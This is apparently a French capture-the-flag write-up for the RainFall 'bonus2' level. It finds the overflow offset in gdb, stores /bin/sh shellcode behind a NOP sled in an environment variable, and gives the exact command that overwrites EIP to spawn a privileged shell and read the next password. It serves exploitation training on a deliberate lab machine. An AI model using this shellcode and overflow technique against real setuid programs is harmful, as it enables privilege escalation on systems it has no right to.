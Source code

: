 ## Comportement
- J'ai des droits `bonus2` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2*`
- En exécutant le binaire (`./bonus2`), on observe qu'il attend 1 argument de la part de l'utilisateur print "Hello {argv[1]}".
    ```shell
        bonus2@RainFall:~$ ./bonus2 
        bonus2@RainFall:~$ ./bonus2 bla
        bonus2@RainFall:~$ ./bonus2 bla bla
        Hello bla
        bonus2@RainFall:~$
    ```


## Analyse
- Le programme prend 2 arguments. Il copie au maximum 40 octets de argv[1] dans un buffer, et au plus 32 octets de argv[2] dans le même buffer à l'indice 40 (donc après argv[1]). Ensuite, dans `greetuser()`, il copie un message (de longueur différente selon la langue) dans un buffer de 64 octets. Et puis il le concatène avec notre chaîne fournie en paramètre.
- On va mettre notre payload dans une variable d'environnement que l'on va exporter puis indiauer cette adresse lors de l'ecrasement de l'`eip`


## Résolution
- On cherche l'`eip` avec LANG = nl. Il est egal a 23. 
    ```shell
        bonus2@RainFall:~$ export LANG=nl
        bonus2@RainFall:~$ gdb bonus2
        (gdb) run $(python -c 'print "B" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
        Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

        Program received signal SIGSEGV, Segmentation fault.
        0x38614137 in ?? ()              // offset : 23
    ```
- On place un shellcode dans une variable d'env PAYLOAD precede n'un long nopsleg
    ```shell
        export PAYLOAD="`python -c 'print "\x90" * 4096+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"
    ```
- Pour trouver l'adresse de la variable d'env PAYLOAD (+ un petit decalage pour etre sur de tomber dans les NOP) on peut utiliser gdb : `x/1s *((char **)environ)` ou `x/s *environ`
    ```shell
        bonus2@RainFall:~$ export LANG="nl"
        bonus2@RainFall:~$ export PAYLOAD="`python -c 'print "\x90" * 4096+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"
        bonus2@RainFall:~$ gdb ./bonus2
        (gdb) b main
        Breakpoint 1 at 0x804852f
        (gdb) run
        Starting program: /home/user/bonus2/bonus2

        Breakpoint 1, 0x0804852f in main ()
        (gdb) x/50s *environ
        0xbfffe8f4:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
        (gdb) p/x 0xbfffe8f4+512
        $1 = 0xbfffeaf4
    ```
- On craft notre payload avec : 
    - argv[1] : padding de 40 octets
    - argv[2] : offset 23 octets + adresse dans la variable d'env LANG
```shell
    ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xf4\xea\xff\xbf"')
```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `bonus3`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/bonus3/.pass`)
  - quitter le shell (`exit`)
  - et passer au bonus3 (`su bonus3`) en renseignant ce password.
